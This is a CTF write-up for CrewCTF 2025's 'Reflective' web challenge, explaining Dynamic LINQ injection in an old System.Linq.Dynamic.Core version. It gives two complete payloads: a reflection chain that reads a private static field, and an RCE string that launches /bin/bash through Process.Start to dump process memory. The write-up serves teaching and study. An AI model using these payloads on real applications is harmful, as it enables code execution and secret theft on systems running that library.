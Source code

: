 ```yaml
---
title: "CrewCTF 2025 – Reflective (Web)"
date: 2025-09-22 23:30:00 +0300
categories: [CTF, Web]
tags: [CrewCTF, .NET, Reflection, DynamicLINQ, RCE, Writeup]
description: "Writeup for Reflective (Web) challenge from CrewCTF 2025 where I discussed two unintended solutions."
image: /assets/img/ctf/CrewCTF.svg
---
```


## TL;DR

The app had two critical issues: the `/Notes` search built a Dynamic-LINQ query by concatenating user input (`"Title.Contains(\"" + title + "\")"`) while using a vulnerable `System.Linq.Dynamic.Core v1.2.25`, which allowed injected expressions to use .NET reflection — letting an attacker traverse assemblies, read the private static `_flag` field from `BookKeeper.NotesManager`, and `Invoke` `set_Title` on a note so the flag appears in the UI; and the package also exposed an RCE vector via Dynamic-LINQ which could be used to start a process (e.g., run `dotnet-dump collect -p 1 -o dump --type Full`) and dump the .NET process memory to grep the flag.

---

**Challenge:** [Reflective](https://2025.crewc.tf/challenges#Reflective-14)<br>**Author:** [Instellate](https://instellate.xyz/)<br>**Solves**: 23

Greetings!

I participated in CrewCTF this year, one of the most challenging yet enjoyable CTFs I've done. This particular challenge offered multiple possible attack paths, but it remained one of the toughest on the board, with only 23 teams managing to solve it.

---

## Opening the Box

First thing I always do is check the Dockerfile. This challenge looked like a .NET 9 (ASP.NET Core) web app — it exposed port **8080** and ran on `mcr.microsoft.com/dotnet/aspnet:9.0`. I don’t know .NET that well, so rather than read every line of code, I spun up an instance to see how it behaved.

Two endpoints stood out quickly:

- `/Notes` — lists all notes and supports searching.
- `/Notes/create` — a simple form to create notes.

Naturally I wanted to see what drove those endpoints, so I hunted down `NotesManager.cs`. That’s where things started to get interesting.

---

## Peeking Inside the .NET Project

This code snippet is from `NotesManager.cs` file:

```csharp
public IEnumerable<Note> GetLatestNotes(string title, int page = 0)
{
    string query = "Title.Contains(\"" + title + "\")";

    return this._notes
        .AsQueryable()
        .OrderByDescending(n => n.CreatedAt)
        .Where(query)
        .Skip(page * 10)
        .Take(10);
}
```

That’s straight-up string concatenation of user input — a red flag. It turned out the `.Where(query)` uses **Dynamic LINQ**, which parses and compiles user-supplied expressions. I’d never used it before, so I went to learn how it works and which version the app used.

`Reflective.csproj` showed:

```xml
<PackageReference Include="System.Linq.Dynamic.Core" Version="1.2.25" />
```

That version is ancient compared to the current `1.6.x` line, and the [NuGet page](https://www.nuget.org/packages/System.Linq.Dynamic.Core/1.2.25) flagged vulnerabilities. Two stood out:

1. **Remote Code Execution** via Dynamic LINQ (critical). [here](https://github.com/advisories/GHSA-w65q-jcmv-28gj)
2. **Property reflection** allowing access to reflection types and static properties/fields (high). [here](https://github.com/advisories/GHSA-4cv2-4hjh-77rx)


The second one fit the challenge’s name — *Reflective* — so I dug into it. The advisory noted that versions before `1.6.0` allowed remote access to reflection types and static properties/fields from within injected expressions. That sounded promising, but I couldn’t immediately craft a working payload. Thankfully my teammate **phisher305** cracked it and shared the payload after the CTF ended — huge thanks to him. I’ve broken it down below.

---

## How the Payload Works

Here’s the payload we used:

```
") and true && it.GetType().Assembly.DefinedTypes.Where(t=>t.FullName=="Reflective.Note").First().DeclaredMethods.Where(m=>m.Name=="set_Title").First().Invoke(
 it,
 new System.Object[]{
   (
     ("").GetType().Assembly
       .DefinedTypes.Where(t=>t.FullName=="System.Reflection.Assembly").First()
       .DeclaredMethods.Where(m=>m.Name=="CreateInstance").First()
       .Invoke(
         ("").GetType().Assembly
           .DefinedTypes.Where(t=>t.FullName=="System.Array").First()
           .DeclaredMethods.Where(m=>m.Name=="GetValue").First()
           .Invoke(
             ("").GetType().Assembly
               .DefinedTypes.Where(t=>t.FullName=="System.AppDomain").First()
               .DeclaredMethods.Where(m=>m.Name=="GetAssemblies").First()
               .Invoke(
                 ("").GetType().Assembly
                   .DefinedTypes.Where(t=>t.FullName=="System.AppDomain").First()
                   .DeclaredProperties.Where(p=>p.Name=="CurrentDomain").First()
                   .GetValue(null),
                 new System.Object[]{}
               ),
             new System.Object[]{ new [] { 97 } }
           ),
         new System.Object[]{ "BookKeeper.NotesManager" }
       )
   ).GetType().Assembly
     .DefinedTypes.Where(tt=>tt.Name=="NotesManager").First()
     .DeclaredFields.Where(f=>f.Name=="_flag").First()
     .GetValue(null).ToString()
 }
)==null and Title.StartsWith("
```

Breakdown:

- **Injection entry:** The payload first closes the expected expression and injects a new Dynamic-LINQ expression (`) and true && ...`) so the attacker controls the whole `Where(...)` string — classic injection.
- **`it` is the pivot:** Inside the `Where` predicate, `it` refers to the current `Note` object. The payload starts reflection traversal from `it` (e.g. `it.GetType().Assembly.DefinedTypes`) as an entrypoint to the process’s types.
- **Bootstrapping reflection with `""`:** The `("").GetType().Assembly` trick obtains a `System.Type` (string’s type) and its `Assembly` without `typeof(...)` or hardcoded names, giving access to reflection APIs (`DefinedTypes`, `DeclaredMethods`, `DeclaredFields`, etc.).
- **Find the target assembly:** It calls `AppDomain.CurrentDomain.GetAssemblies()` and picks an assembly using `Array.GetValue(...)` with an index (your payload used `new [] { 97 }`). The index is used because the right assembly isn’t known reliably; on that instance index 97 points to the challenge assembly.
- **Create instance of target manager:** With that `Assembly`, the payload calls `Assembly.CreateInstance("BookKeeper.NotesManager")` to obtain a `NotesManager` object from the target code — the pivot to reach the `_flag`.
- **Read the `_flag` via reflection:** From the `NotesManager` type/instance it enumerates `DeclaredFields`, finds the `_flag` static field, and calls `GetValue(null)` (null because it’s static) to retrieve the flag string, then `.ToString()`.
- **Plant the flag into the UI:** The payload then finds and invokes `set_Title` on the current `it` (`Invoke(it, new object[]{ <flagString> })`), setting the note’s `Title` to the flag so the app will display it.
- **Keep the predicate valid:** Finally it appends a boolean expression (e.g. `Title.StartsWith("...")`) so the `Where(...)` remains a valid predicate and the modified row is returned/rendered. In short: read the flag by reflection, write it into a visible `Note` field, and return a row so the UI shows the flag.

```
crew{dotnet_reflection_is_weird_is_it_not__why_do_i_care}
```

---

## Another Unintended Route

From the CrewCTF Discord I learned other unintended solutions relying on the same vulnerabilities mentioned earlier.

One neat approach (shoutout to **siunam321**) used a Dynamic-LINQ injection to achieve RCE, then invoked `dotnet-dump` from the container to dump the .NET process memory (PID 1) and grep the flag from the memory dump. The payload essentially kicked off a shell/Process start that ran `dotnet-dump collect -p 1 -o dump --type Full`. Once the dump finished, they inspected it and found the flag in plaintext.

 ```
 ") && "".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "/bin/bash;-c \"./dotnet-dump collect -p 1 -o dump --type Full"".Split(";".ToCharArray())).GetType().ToString() == ("
 ```

This route leaned on an RCE path for the library (CVE-style PoC) rather than the reflection-only path we used to write the flag directly into a `Note` title. Both are valid — just different flavors of exploitation.

---

## Final Thoughts

This challenge was an absolute blast. It introduced me to Dynamic LINQ and a weird corner of .NET reflection I hadn’t seen before. The combination of reflection APIs, an old vulnerable library, and a tiny UI surface made for a satisfying puzzle: once you spot the injection point, the rest is creative traversal and a bit of trial-and-error.

Big thanks to my teammate **phisher305** for the payload and to everyone in the discord who discussed alternate approaches. I learned a ton and can’t wait to play with these ideas further.

I still haven’t managed to get the intended solution in a way I can write about properly — hopefully I’ll be able to later.

Thanks for reading!